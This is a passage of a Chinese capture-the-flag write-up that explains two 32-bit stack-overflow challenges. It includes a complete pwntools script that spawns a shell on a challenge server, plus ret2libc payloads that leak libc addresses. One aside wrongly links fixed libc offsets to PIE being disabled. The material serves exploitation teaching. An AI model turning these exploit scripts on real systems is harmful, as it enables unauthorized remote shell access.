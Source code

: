 所以构造

Payload

```python
payload="a"*(0x26+0x04)+p32(system_addr)+"a"*4+p32(name_addr)
```

Exp

```python
#coding=utf-8
from pwn import *
io=remote("111.198.29.45","40904")
sh="/bin/sh"
name_addr=0x0804A080
system_addr=0x08048420
payload="a"*(0x26+0x04)+p32(system_addr)+"a"*4+p32(name_addr)
io.sendlineafter("please tell me your name",sh)
io.sendlineafter("hello,you can leave some message here:",payload)
io.interactive()
```

## 0x0B level3

checksec:

```bash
Arch:     i386-32-little
RELRO:    Partial RELRO
Stack:    No canary found
NX:       NX enabled
PIE:      No PIE (0x8048000)
```
核心代码和level0一致

但是这一次我们在程序里没有system()的后门了。。。。。

怎么办呢

>程序对外部函数的调用需要在生成可执行文件时将外部函数链接到程序中，链接的方式分为静态链接和动态链接。静态链接得到的可执行文件包含外部函数的全部代码，动态链接得到的可执行文件并不包含外部函数的代码，而是在运行时将动态链接库（若干外部函数的集合）加载到内存的某个位置，再在发生调用时去链接库定位所需的函数。
>
>手把手教你栈溢出从入门到放弃（下）----- https://zhuanlan.zhihu.com/p/25892385



注意到PIE没有开启，那么在libc中函数的offset就是固定的，所以我们如果找出了libc的base address，然后计算出system函数的offset得到system函数的真实地址，就可以pwn了。

我们先用write泄露write函数的实际地址

然后计算出偏移量

接下来只要计算出system和"/bin/sh"的实际地址就可以同level2一样getshell了

### Payload

```python
payload1 = 'a'*(0x88+0x4)+p32(write_plt)+p32(main_addr)+p32(1)+p32(write_got)+p32(4) 
payload2 = 'a'*(0x88+0x4) +p32(system_addr) + 'a'*4 + p32(shell_addr)
```
